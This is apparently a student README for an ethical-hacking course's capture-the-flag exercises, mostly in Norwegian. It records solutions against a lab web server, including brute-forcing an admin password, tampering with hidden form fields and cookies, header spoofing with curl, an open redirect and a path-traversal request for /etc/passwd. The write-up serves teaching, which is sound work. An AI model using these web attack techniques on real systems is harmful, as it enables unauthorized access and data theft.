 # TTM4536-Etisk-hacking

Repo for all code som blir brukt i faget, og spesielt i forhold til flag og Darkly


Flags:
1. Bruteforce
2. Passord-recovery
3. Albatros-flag? nsa?
4. Survey (trenger flag03)
5. Redirect (trenger flag04)
6. Paths
7. Hidden
8. Whatever
9. Cookies/oreo
10. Members
11. Image
12. Image2
13. Silly
14. nsa2



# Bruteforce/Flag01

Lagde et script som kjørte 2 for løkker. Begge løkkene gikkgjennom alle passordene i filen (xato.....) og i den inerste løkken skrev den ut passordene i et passord. Så alle passordene i filen ble satt sammen med alle passordene inkludert seg selv. Det endte totalt med 998001 passord grunnet at det var 999 passord i filen siden et av passordene var blankt som scriptet ikke tok med.

Etter det kjørte jeg det default scriptet med noen små justeringer og fikk ut passordet (chicken333333) for admin.


# Flag02 - Passord recovery
Editerte html coden:
Ved å legge inn eget e-post i value i stede for den som lå der orginalt
```
<form action="#" method="POST"> 
    <input type="hidden" name="mail" value="eirikgba@stud.ntnu.no" maxlength="15"> 
    <input type="submit" name="Submit" value="Submit"> 
</form>
```


# Flag03 - Albatros/NSA flag
``` 
curl -A "61c08546b939" -e "https://www.nsa.gov/" http://129.241.200.165:19680/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c
```

# Flag04 - Survey
```
http://129.241.200.165:19680/?page=survey
<form action="#" method="post">
					<input type="hidden" name="sujet" value="2">
					<select name="valeur" onchange="javascript:this.form.submit();">
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="999999">10</option>
					</select>
				</form>

```
Change the value of one of the Grades

2^Grade mod p = FLAG03 mod 2^64,
Where
p = Next_Prime(2^54)

# Flag05
Redirect the webpage til en annnen side
```
http://129.241.200.165:19680/index.php?page=redirect&site=5650cb0
```

# Flag06
Endre page, ved å gå til root og så inn i directory etc og vidre inn i passwd.
Hentet opp deller av flagget når en går bakover i fil systemet og det siste ligger i etc/passwd
```
http://129.241.200.165:19680/index.php?page=../../../../../../../etc/passwd
```


# Flag07
Flag07: dbfa4f7c46dc570fcd4b71272cdd2f2c
First tok jeg ut alle README filene
``` 
wget -m -r -nd -A "*README*" http://129.241.200.165:19680//.hidden/ 
```
Så merge alle filene sammen til en fil og åpne den filen i notepad
```
cat * > merged-file
explorer.exe .			#åpner directory i file explorer windows
```

# Flag08

# Flag09 - cookie
satoshi 65558: 22c9b7866d7424dc4b90a03664f5136c966fb34c8edd751cfba6998fe2b5170f
```
inspect element

document.cookie

https://www.blockchain.com/btc/block/65558

endre cookie til 000000000a7dce5ac40e7a88fd61399bbe76da161c1d65cbc2ebf2bd364545ed
```

# Flag10

# Flag11

# Flag12

# Flag13
Congratulations Flag13 is 6bad301f529ea136b3427e9daf2e6b2e
```
http://129.241.200.165:19680/test.php
```

# Flag14

